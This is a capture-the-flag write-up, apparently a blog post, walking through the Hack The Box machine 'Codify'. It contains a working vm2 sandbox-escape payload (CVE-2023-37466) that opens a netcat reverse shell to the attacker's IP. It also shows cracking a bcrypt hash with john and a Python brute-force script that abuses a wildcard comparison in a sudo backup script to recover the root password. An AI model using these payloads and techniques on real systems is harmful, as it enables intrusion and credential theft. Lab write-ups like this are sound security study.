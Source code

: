 ```yaml
---
layout: post
title: Codify
date: '2023-11-07 09:13:35 +0300'
image: /assets/img/cover_images/42.png
categories: [HTB, Codify]
---
```


## MACHINE INFO

> **[Codify](https://app.hackthebox.com/machines/Codify)** is an easy linux machine which leverages a CVE on `vm2` and the knowledge of `javascript` inorder to create a script for a reverse shell and the basic of any scripting language such as `python` to create a custom script for privilege escalation through bruteforce attack.
{: .prompt-info }

## ENUMERATION

```bash
nmap -sV -sC -top-ports 100 10.10.11.239
```

```bash
Nmap scan report for 10.10.11.239
Host is up (0.79s latency).
Not shown: 97 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.78 seconds
```

We add the ip to our hosts file 
```bash
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
The website allows us to run javascript code

![img-description](/assets/img/codify/1.png)

We notice the website uses vm2

![img-description](/assets/img/codify/2.png)

After searching for the exploits on vm2 i came across this [CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5) that allows RCE

We craft our payload to create [netcat bind and reverse shells](https://patchthenet.com/blog/create-bind-and-reverse-shells-using-netcat/) to connect with netcat

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.178 4242 >/tmp/f');
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

We then listen on our machine for connections

```bash
sudo nc -lnvp 4242
```

We run the code and immediately "WE ARE IN". We move to var/www/ and find a directory ```contact```. We move into the directory and find ```tickets.db```
```bash
$ cd var/www/  
$ ls
contact
editor
html
$ cd contact
$ ls
index.js
package.json
package-lock.json
templates
tickets.db
```

We use sqlite3 to get the data in users table. We find a user joshua with a hash 
```bash
$ sqlite3 tickets.db
.tables
tickets  users  
select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We crack the hash with john and find the password ```spongebob1```
```bash
john --wordlist=/usr/share/dict/rockyou.txt hash.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:01:11 DONE (2023-11-07 11:45) 0.01399g/s 19.14p/s 19.14c/s 19.14C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We connect with ssh to the machine
```bash
ssh joshua@10.10.11.239
password: spongebob1
```

## PRIVILEGE ESCALATION
We notice a script running at ```/opt/scripts/mysql-backup.sh```. The script allows us to guess the password endless times
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
We create a python script to bruteforce the password of the root
```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

```bash
joshua@codify:/tmp$ python3 brute.py
[sudo] password for joshua: 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
We switch to root and enter the password. We are now r00t
```bash
joshua@codify:/tmp$ su
Password: 
root@codify:/tmp#
```

![img-description](/assets/img/codify/3.png)
